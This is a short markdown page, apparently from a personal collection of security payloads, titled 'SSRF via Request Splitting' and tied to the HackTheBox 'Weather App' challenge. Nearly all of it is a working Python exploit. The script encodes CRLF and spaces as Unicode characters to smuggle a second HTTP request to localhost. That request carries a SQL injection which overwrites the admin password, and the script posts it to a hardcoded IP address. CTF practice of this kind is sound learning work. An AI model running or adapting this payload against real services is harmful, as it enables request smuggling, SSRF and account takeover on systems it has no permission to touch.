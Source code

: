 ```yaml
---
layout: default
title: SSRF via Request Splitting
nav_order: 1
parent: Payloads
---
```


# SSRF via Request Splitting
{: .no_toc }

---

Need to read:
- <https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/>
- <https://blog.d3s34.me/weather-app>

Example: HTB - Weather App

Payload

```python
import requests

CRLF = "\u010D\u010A"
SPACE = "\u0120"

SQLi = f"username=admin&password=1') on conflict(username) do update set password='123';-- -"\
    .replace(" ", SPACE)\
    .replace("'", "%27")

payload =   f"{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"{CRLF}"\
            \
            f"POST{SPACE}/register{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"Content-Length:{SPACE}{len(SQLi)}{CRLF}"\
            f"Content-Type:{SPACE}application/x-www-form-urlencoded{CRLF}"\
            f"{CRLF}"\
            f"{SQLi}{CRLF}"\
            f"{CRLF}" \
            \
            f"GET{SPACE}/"

url = 'http://68.183.36.105:31623/api/weather'
data = {"endpoint":"127.0.0.1",
        "city":"Hanoi" + payload,
        "country":"VN"}

x = requests.post(url, data = data)

print(x.text)
```
